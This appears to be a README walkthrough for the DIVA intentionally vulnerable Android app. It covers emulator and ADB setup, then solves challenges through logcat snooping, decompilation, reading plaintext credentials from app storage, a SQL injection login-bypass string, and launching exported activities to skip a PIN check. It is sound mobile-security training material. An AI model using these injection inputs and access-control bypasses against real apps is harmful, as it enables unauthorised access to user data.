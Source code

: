 # diva

##  **1. Setup Genymotion Emulator**

### ➤ Download & Install Genymotion

```bash
# Download from official site
https://www.genymotion.com/product-desktop/download/

# Install (Windows example)
genymotion-3.9.0-vbox.exe
```

Follow the installation wizard → default path:
`C:\Program Files\Genymobile\Genymotion`

---

### ➤ Launch Genymotion

Search **Genymotion** → Open it → Sign in with your Genymotion account.
Choose **Personal Use** license.

---

### ➤ Create a Virtual Android Device

1. Click **Create**
2. Choose a template → e.g. **Google Nexus 5**
3. Select **Android version** → e.g. **Android 11.0**
4. Configure resources:

   * CPU: 2
   * RAM: 2048 MB
   * VM Heap: 256 MB
5. Network: choose **Bridge**
6. Click **Install**
7. Once installed → click **Play** to start the device.

---

##  **2. Connect ADB with Genymotion**

### ➤ Open PowerShell as Administrator

### ➤ Check ADB Installation

```bash
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" version
```

### ➤ Connect to Emulator

Get the IP from emulator title bar, e.g. `192.168.138.103:5555`

```bash
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" connect 192.168.138.103:5555
```

### ➤ Verify Connection

```bash
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" devices
```

---

##  **3. Install DIVA Vulnerable App**

### ➤ Download DIVA APK

From GitHub: [https://github.com/payatu/diva-android](https://github.com/payatu/diva-android)
Extract `DivaApplication.apk` from the ZIP file.

### ➤ Install APK via ADB

```bash
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" install "C:\Users\<username>\Downloads\diva-apk-file-main\DivaApplication.apk"
```

### ➤ Verify Installation

Open emulator → app drawer → check for **DIVA** icon.

---

##  **4. Exploiting DIVA Vulnerabilities**

###  Insecure Logging

```bash
# Clear logs
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" logcat -c

# Start live log monitor
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" logcat
```

Then input sensitive data (e.g., credit card) in the DIVA “Insecure Logging” challenge and observe logs.

---

###  Setting Up JADX (Static Analysis)

```bash
# Download JADX GUI (e.g. jadx-gui-1.4.7)
https://sourceforge.net/projects/jadx/files/

# Extract and run
jadx-gui.exe
```

Open `DivaApplication.apk` in JADX → view vulnerable code.

---

###  Hardcoded Secret Key

Check `HardcodeActivity.java` in JADX:

```java
if (key.getText().toString().equals("vendorsecretkey")) {
    Toast.makeText(this, "Access granted!", 0).show();
}
```

Enter `vendorsecretkey` in the app → access granted.

---

###  Insecure Data Storage (Part 1)

```bash
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" shell
run-as jakhar.aseem.diva
cd /data/data/jakhar.aseem.diva/shared_prefs
ls -l
cat *.xml
```

→ Reveals credentials stored in plaintext XML.

---

###  Insecure Data Storage (Part 2)

```bash
& "C:\Program Files\Genymobile\Genymotion\tools\adb.exe" shell
run-as jakhar.aseem.diva
ls -la
cd databases
ls -la
sqlite3 ids2
.tables
SELECT * FROM myusers;
```

→ Reveals plaintext usernames and passwords.

---

###  SQL Injection (Input Validation)

In the DIVA challenge, input:

```sql
'1' or '1'='1'--
```

→ Bypasses login check and returns all user data.

---

###  Access Control Issues – Part 1

Start exported activity directly:

```bash
adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS
```

→ Displays API credentials:

```
API Key: 123secretapikey123
Username: diva
Password: p@ssword
```

---

###  Access Control Issues – Part 2

Bypass PIN validation:

```bash
adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS2 --ez check_pin false
```

→ Reveals hidden credentials:

```
TVEETER API Key: secrettveeterapikey
Username: diva2
Password: p@ssword2
```

---

##  **Summary of Key Commands**

| Action              | Command                                        |
| ------------------- | ---------------------------------------------- |
| Check ADB version   | `adb version`                                  |
| Connect device      | `adb connect <IP:PORT>`                        |
| List devices        | `adb devices`                                  |
| Install APK         | `adb install <apk_path>`                       |
| Clear logs          | `adb logcat -c`                                |
| View logs           | `adb logcat`                                   |
| List packages       | `adb shell pm list packages \| findstr diva`   |
| Access app data     | `run-as jakhar.aseem.diva`                     |
| Browse shared prefs | `cd /data/data/jakhar.aseem.diva/shared_prefs` |
| Open SQLite DB      | `sqlite3 ids2`                                 |
| Start activity      | `adb shell am start -a <action>`               |
| SQL Injection input | `'1' or '1'='1'--`                             |

---
